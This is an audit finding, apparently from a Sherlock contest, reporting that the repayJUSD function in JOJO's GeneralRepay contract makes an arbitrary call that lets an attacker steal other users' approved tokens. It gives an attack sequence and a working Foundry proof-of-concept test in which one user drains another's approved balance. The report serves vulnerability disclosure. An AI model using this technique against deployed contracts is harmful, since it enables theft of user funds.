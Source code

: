 BowTiedOriole

high

# GeneralRepay makes generic call allowing approved tokens to be stolen

## Summary

Users have to approve the GeneralRepay contract prior to calling repayJUSD. repayJUSD makes any arbitrary call, allowing a malicious user to craft a swap target and data to steal all approved funds.

## Vulnerability Detail

A malicious user creates a deposit and borrow position in JUSDBank and waits for users to approve the GeneralRepay contract. Once a user approves the GeneralRepay contract, the malicious user calls repayJUSD with swap data transferring the approved funds to themself. 

1. User A creates deposits into JUSDBank and creates a small borrow position.
2. User B approves GeneralRepay for a token prior to calling repayJUSD
3. User A crafts swap data for ```token.transferFrom(userB, userA, amount)```
4. User A sends 1 USDC to GeneralRepay and executes repayJUSD with the malicious swap data, stealing all of the user's approved funds.

```solidity
     function testGeneralRepayHighVulnerability() public {
        // Setup
        mockToken1.transfer(alice, 5e18);
        mockToken1.transfer(bob, 3e18);
        address[] memory users = new address[](1);
        users[0] = bob;
        uint256[] memory amounts = new uint256[](1);
        amounts[0] = 1;
        USDC.mint(users, amounts);

        vm.startPrank(bob);
        mockToken1.approve(address(jusdBank), 5e18);
        jusdBank.deposit(bob, address(mockToken1), 3e18, bob);
        jusdBank.borrow(1e6, bob, false);
        vm.stopPrank();

        // Hack
        vm.startPrank(alice);
        mockToken1.approve(address(generalRepay), type(uint256).max);
        vm.stopPrank();

        assertEq(mockToken1.balanceOf(bob), 0);
        bytes memory data = abi.encodeWithSignature("transferFrom(address,address,uint256)", alice, bob, 5e18);
        bytes memory param = abi.encode(address(mockToken1), address(mockToken1), 0, data);

        vm.startPrank(bob);
        USDC.transfer(address(generalRepay), 1);
        generalRepay.repayJUSD(address(mockToken1), 0, bob, param);
        assertEq(mockToken1.balanceOf(bob), 5e18);
        assertEq(mockToken1.balanceOf(alice), 0);
    }
```

## Impact

All approvals for the GeneralRepay contract are unsafe and will result in stolen funds.

## Code Snippet

[GeneralRepay.sol#L41-L44](https://github.com/sherlock-audit/2023-04-jojo/blob/main/JUSDV1/src/Impl/flashloanImpl/GeneralRepay.sol#L41-L44)

## Tool used

Manual Review

## Recommendation

The swap call in repayJUSD needs to be redesigned.
